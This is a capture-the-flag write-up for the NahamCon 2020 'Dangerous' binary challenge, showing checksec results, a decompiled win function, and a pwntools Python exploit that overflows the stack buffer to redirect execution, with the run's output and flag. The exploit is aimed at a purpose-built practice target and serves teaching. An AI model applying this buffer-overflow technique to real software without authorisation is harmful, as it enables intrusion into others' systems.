

# NahamCon CTF 2020

## Dangerous

> 75
>
> Hey! Listen! 
>
> Connect here:</br>
> `nc jh2i.com 50011`</br>
>
> [`dangerous`](dangerous)

Tags: _pwn_ _x86-64_ _rop_ _bof_


## Summary

Classic buffer overflow -> win function.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Some mitigations in place.  Ripe for buffer overflow and ROP.


### Decompile with Ghidra

Normally I'd decompile with Ghidra, search for any vulnerabilities, and use math to figure out payloads; but then decided to let pwntools do all the work for me (something new to try, to learn).  Well, mostly.

> I already have [examples](https://github.com/datajerk/ctf-write-ups/blob/master/sharkyctf2020/giveaway0/README.md) of how this exploit works, I just didn't want to write another one exactly like it.

This binary is stripped of symbols, so you'll have to look at each function, and in no time you'll find a `win` function:

```c
void FUN_0040130e(void)

{
  char local_218 [524];
  int local_c;
  
  local_c = open("./flag.txt",0);
  read(local_c,local_218,0x200);
  close(local_c);
  puts(local_218);
  return;
}
```

Next use cyclic to check for a buffer overflow:

```bash
# cyclic 1000 | ./dangerous

...

Segmentation fault
```

Right, using tips from [HSCTF 7: pwnagotchi (Pwn)](https://dystopia.sg/hsctf-pwnagotchi/), see if pwntools can just do all the work for me.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

p = process('./dangerous')

p.recvuntil('What\'s your name?')
p.sendline(cyclic(1024,n=8))
p.wait()
core = p.corefile
p.close()
os.remove(core.file.name)
padding = cyclic_find(core.read(core.rsp, 8),n=8)

payload  = padding * b'A'
payload += p64(0x40130e)

p = remote('jh2i.com', 50011)
p.recvuntil('What\'s your name?')
p.sendline(payload)
p.stream()
```

Yep, pwntools can find the return address with automated core file analysis.  All that is needed is the address of `FUN_0040130e` (`0x40130e`) as the payload for the return address.

> I probably should have had pwntools find `flag.txt`, then find the enclosing function to dynamically return the address of the `win` function.  For the next CTF...

Output:

```bash
# ./exploit.py
[+] Starting local process './dangerous': pid 30324
[*] Process './dangerous' stopped with exit code -11 (SIGSEGV) (pid 30324)
[+] Parsing corefile...: Done
[*] '/pwd/datajerk/nahamconctf2020/dangerous/core.30324'
    Arch:      amd64-64-little
    RIP:       0x40130d
    RSP:       0x7ffda1480ab8
    Exe:       '/pwd/datajerk/nahamconctf2020/dangerous/dangerous' (0x401000)
[+] Opening connection to jh2i.com on port 50011: Done

It's dangerous to go alone! Take this, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
         █
        ███
        ███
        ███
        ███
        ███
        ███
        ███
        ███
        ███
      ███████
      █ ███ █
        ███
        ███
        ███

flag{legend_of_zelda_overflow_of_time}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Nope, that won't do, need the full glory of full color:

